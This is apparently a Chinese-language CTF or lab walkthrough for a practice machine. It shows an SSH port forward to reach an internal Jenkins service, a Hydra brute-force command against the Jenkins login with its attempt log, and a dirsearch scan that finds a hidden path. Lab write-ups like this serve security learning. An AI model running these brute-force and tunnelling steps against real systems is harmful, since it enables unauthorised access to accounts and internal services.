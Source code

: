 看起來也沒辦法，但是在原本的目錄看到一些酷東西，我猜可能是 port fordwarding 之類的考法


![Screenshot 2025-07-09 at 5.25.15 PM](https://hackmd.io/_uploads/HkFYBhsHle.png)


看完 wp 之後發現真的是，但是因為自己對 port forwarding 不熟，所以這邊就照 wp 的做就好了， 

先

```bash=
ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.104.22
```

之後去 localhost:8080 看就成功了，註: tunnel 的部分盡量 port 選一樣的

![Screenshot 2025-07-09 at 10.19.59 PM](https://hackmd.io/_uploads/rJoccx3Bxl.png)

成功，去查 jenkins 的 default username 跟 password ，發現 username 是 admin ，但密碼是亂數，所以就開始利用 hydra 的 error message 功能去爆破

```bash=
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.104.22 http-post-form "/login:username=^USER^&password=^PASS^:Invalid username or password" -vV
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-09 10:35:52
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.104.22:80/login:username=^USER^&password=^PASS^:Invalid username or password
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.104.22 - login "admin" - pass "abc123" - 10 of 14344399 [child 9] (0/0)

```

![Screenshot 2025-07-09 at 10.57.37 PM](https://hackmd.io/_uploads/ByavXWhHgg.png)

dirsearch 掃下去發現有路徑 `/oops`


![Screenshot 2025-07-09 at 10.58.18 PM](https://hackmd.io/_uploads/ByIcQbhSex.png)
